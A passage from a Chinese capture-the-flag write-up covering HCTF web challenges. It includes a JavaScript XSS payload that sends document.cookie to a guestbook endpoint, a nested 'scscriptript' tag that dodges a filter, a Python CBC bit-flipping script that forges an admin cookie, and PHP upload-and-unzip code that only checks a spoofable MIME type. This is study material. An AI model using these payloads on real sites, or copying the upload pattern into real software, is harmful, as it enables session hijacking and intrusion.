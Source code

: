 ```javascript
    }
    }
  }
var cookie = document.cookie
send('http://sguestbook.hctf.io/submit.php','to=usertest&message='+cookie)
```

然后，在留言板的地方发送一个信息给admin，信息内容如下

```javascript
<scscriptript src=http://sguestbook.hctf.io/static/redirect.php?u=/upload/xxxxxx></scscriptript>
```

直接拿cookie，带cookie访问user.php，留言里有flag



### 7. 大图书馆的牧羊人、魔法禁书目录

（这部分完全参考火日大大的payload)

两道题原理基本相同

大图书馆的牧羊人有.git源码泄露，代码里key没改，所以其实直接encrypt一个admin就可以了，魔法禁书目录的key改掉了，所以还是规规矩矩用cbc字节翻转，随便改改以前的一个脚本，首先注册一个admink，得到cookie d3G1C1wd0-OA6dofOBFvwbm7NmS-rEb82ebSRuifm0I
然后

```Python
import base64 
c = 'd3G1C1wd0-OA6dofOBFvwbm7NmS-rEb82ebSRuifm0I'
user = c
u = user.replace("-", "+").replace("_", "/") 
u += "=" * (len(u) % 4)
print u
de = base64.b64decode(u) 
de2 = de[0]+de[1]+de[2]+de[3]+de[4]+ chr(ord(de[5]) ^ ord('k') ^ ord('\0'))+de[6:]
en = base64.b64encode(de2).replace("+", "-").replace("/", "_").replace("=", "")
print en 

```

得到新cookie d3G1C1xx0-OA6dofOBFvwbm7NmS-rEb82ebSRuifm0I，替换掉cookie，访问以下login.php让session[‘user’]的值更新为admin，然后访问manage.php
发现是一个上传，可以传zip，会自动解压，只要$files['type']!=="application/epub+zip"，这个用burp修改就行

```python
//upload
$files = isset($_FILES['file']) ? $_FILES['file'] : exit();
if($files['type']!=="application/epub+zip") {
  exit("Not Allow type!");
}


//extract
$file = new ZipArchive;
$epub_name = $files['tmp_name'];
$extracted_path = 'uploads/'.basename($files['name'],".epub")."/";
if ($file->open($epub_name) === TRUE){
  $file->extractTo($extracted_path);
  $file->close();
}
```
